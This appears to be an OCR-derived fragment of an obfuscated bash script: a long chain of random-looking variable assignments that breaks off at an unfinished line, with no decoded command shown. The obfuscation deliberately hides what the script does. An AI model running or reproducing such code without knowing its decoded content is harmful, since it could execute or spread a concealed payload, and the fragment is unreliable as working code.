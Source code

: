 #!/bin/bash

God="BlessYou";krF=FoL;Gnr=Vl;QIy=Is;UOt=FC;kVE=Sk;KlM=gM;Xwe=TF;oTX=dD;Yox=Qa;wQx=mb;Kqb=Zy;xWU=twB;gTp=auw;hwZ=Ejp;tHg=iQZ;ojo=shb;jhw=FjF;IDL=klV;wOA=yFT;PZL=XfL;DRJ=DiE;bmJ=FCa;XGN=dOT;QCK=dkY;SOb=WJE;RJx=uAv;czJ=dts;VGB=oCy;TyO=xGj;yHU=bpq;Nfb=Wct;doQ=Ibf;XCL=rax;ZNH=Hhf;Eoh=yCU;ghd=hut;ooz=VKY;qMf=PrY;Ecf=Lke;BbJ=jie;QOI=lOT;oi=QkU;yM=iDO;rT=twI;wa=BEk;Lf=SGl;Sx=Kri;yL=RiF;Xf=iZT;iv=fpC;fW=nki;qX=FrL;ba=OUY;czP=Hdm;ecN=WKt;QMW=BnB;Nsq=jdC;nof=OZt;bhx=qNV;vVN=xaU;smp=Wta;ceY=GDh;AIB=juO;miA=Cso;zgz=Hka;Kea=YMq;hUp=SWY;zMP=ozk;WGK=JEt;pkF=jjF;FCq=pFs;ZrQ=VcQ;ZjS=do;BTP=Su;sly=xM;aZl=vF;iJn=bo;QCl=HB;SCO=xo;fUq=Jo;Epq=zc;wxq=Ev;ziJ=Gx;Kzo=JF;PDO=pJ;qhq=yp;OYk=rj;OGy=Cc;hSK=xR;lnD=um;UXi=pl;xBF=xP;qOD=iX;RVy=nl;mqe=JK;rQt=CA;qJD=FR;sPp=XZ;moh=DC;Fsj=GWh;NTx=Jnx;dwG=ncr;Ugd=mFV;ZTt=WjI;mFG=lms;YGK=bPI;UKs=ibv;hka=JFE;zpQ=Gxt;VlF=Jxk;AEJ=cuk;SUZ=YiV;Wfq=NhZ;xLp=ray;QmE=mqM;fkp=tHl;Sek=XvT;qbj=EKu;RfA=xSe;fPQ=Oll;cif=jtg;GYE=yei;Prw=RTD;sMB=pEL;sxA=APb;aRs=HgZ;SXm=VSI;lZA=UKc;YMw=Lct;bwO=XQI;OxQ=COX;bPh=KqP;GVr=hRx;eoA=eID;AZK=fFj;PGC=XPy;ieV=gly;AUO=yit;GjW=jaZ;tBB=HSO;vdV=efl;HiW=VHx;JaQ=RCo;cGr=fsk;eib=jty;TPK=rlb;dhM=oDt;tCL=muK;gAg=xQq;xWl=eMt;AtB=mbQ;UzS=lee;xjU=CPZ;qLS=iIg;dQw=NHN;Dum=qAc;aei=Whw;afz=OcR;NWZ=Txs;gzI=HsZ;YmH=IIm;kZc=Ppd;qnZ=vjw;sQw=BmF;PAB=rGe;gah=aHu;XfD=uJJ;LmJ=PUK;jCz=XpN;gTg=hRF;cpS=fhx;wFI=fih;pHM=aTH;GIm=Jtb;XDy=XGY;zMs=kPd;VtP=pbP;ALj=acU;HEZ=Tre;EPr=vOf;eSC=AIk;TXH=szR;nNa=bGD;lQt=Qod;Qvm=HGI;tkS=IOY;qmZ=tDf;xxx=xOS;pFg=XCd;aVR=xGh;ooR=AHX;JVj=laY;TvM=kEx;SYU=hol;ddj=khS;aPP=oiI;Edo="